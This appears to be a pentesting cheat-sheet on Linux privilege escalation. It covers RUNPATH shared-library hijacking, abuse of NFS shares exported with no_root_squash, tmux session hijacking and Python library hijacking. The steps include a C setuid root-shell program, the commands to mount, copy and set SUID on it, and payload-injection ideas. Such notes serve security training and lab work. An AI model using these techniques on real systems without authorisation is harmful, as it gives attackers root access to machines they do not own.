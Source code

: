 # Miscellaneous Techniques

## **Shared Object Hijacking - Binary RUNPATH variable**

A binary or program may use a custom library that can be enumerated by using one of the following commands:

* `ldd /path/to/program-name`
* `readelf -d /path/to/program-name | grep PATH`

By checking the `RUNPATH` content, we can verify if a custom directory is being used.\
Custom libraries specified by the RUNPATH have higher priority compared to the other libraries, similarly. to LD\_PRELOAD\
In other terms, if the `RUNPATH` contains `/directoryname/customlibrary.so` we can hijack the shared library to elevate privileges

To abuse the RUNPATH, the procedure is the _same as the `LD_PRELOAD` abuse_:

* identify a function used by binary/program
* write a malicious shared library containing a reverse shell payload inside a function with the same signature as the original one
* substitute the original custom library file with the malicious one

***

## **Weak NFS Privileges to Privesc**

* Any accessible mounts can be listed remotely by issuing the command `showmount -e target-ip`
* When an NFS volume is created, various options can be set
* To escalate privileges, we need to have the `no_root_squash` option
* This option allows remote users connecting to the share as the local root user to create files on the NFS server as the root user.\This would allow for the creation of malicious scripts/programs with the SUID bit set.
* Basically, you can use the attacker's machine root user to create files on the NFS server as the root user
* To enumerate the exports on the machine hosting an NFS Share: `cat /etc/exports`
* If `no_root_squash` is set we can create a `SETUID` binary that executes `/bin/sh` using our local root user. \ We can then mount the `/tmp` directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

**Exploitation steps:**

1. Suppose a target machine hosts a NFS Share. We can enumerate that by using `showmount -e target-ip`
2. Suppose we have local access to the target machine. We can check if the `no_root_squash` options is set for the previous share by using `cat /etc/exports`
3.  Write the PoC script:

    ```
    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
    int main(void)
    {
      setuid(0); setgid(0); system("/bin/bash");
    }
    ```
4. Compile the script: `gcc shell.c -o shell`
5. Use the local root user to copy the file on the NFS share as root:
   * `sudo mount -t nfs 10.129.2.12:/tmp /mnt`
   * `cp shell /mnt`
   * `chmod u+s /mnt/shell`
6. Switching back to the target host's session, we can escalate privileges to root by executing the binary: `cd /tmp; ./shell`

***

## **TMUX Terminal Session Hijacking (Requires DEV group)**

> * Terminal multiplexers such as `tmux` can be used to **allow multiple terminal sessions to be accessed within a single console session**
> * When not working in a tmux window, we can `detach` from the session, still leaving it `active`
> * We can gain a `root` terminal session if a user left a `tmux` process running as a privileged user
> * To do that, we need to have access to a user in the `dev` group to create a new `shared tmux session` and modify its ownership

**Exploitation steps:**

1. Create new shared sessions: `tmux -S /shareds new -s debugsess`
2. Change session owner: `chown root:devs /shareds`
3. Check for any ruynning tmux processes: `ps aux | grep tmux`
4. Attach the tmux session and get root privileges: `tmux -S /shareds`

***

## **Python Library Hijacking**

> * There are many ways in which we can hijack a Python library.
> * Much depends on the script and its contents itself.
> * However, there are three basic vulnerabilities where hijacking can be used

1. **Wrong write permissions:**
   * Requirements: A python script with `SUID` privileges that makes use of any library (`import libraryname`)
   * The library file will be located at `/usr/local/lib/python3.8/dist-packages/libraryname`
   * After checking which library function is called inside the python code, we can edit the library file by injecting a payload such as `import os` `os.system('id')`
   * Executing the python script again will show the results of the `id` command, confirming root privileges
2. **Library Path:**
   * Requirements: write permissions in one of the folders shown by the PYTHONPATH variable (preferrably one of the folders first folders)
   * To enumerate the PYTHONPATH variable contents: `python3 -c 'import sys; print("\n".join(sys.path))'`
   * PoC: if we have write permissions inside one of the folders specified by the PYTHONPATH variable\
     we can proceed in a similar manner as with the standard PATH environment variable abuse.
   * The basic idea is to write a file with the same name and signature as an imported library and inject a payload to run a shell
3. **PYTHONPATH environment variable:**
   * Requirements: permissions to edit the PYTHONPATH variable
   * To check that permission: `sudo -l` → Output: `SETENV: /usr/bin/python3`
   * PoC: edit the `PYTHONPATH` variable in the same way as a standard `PATH` environment variable privilege escalation

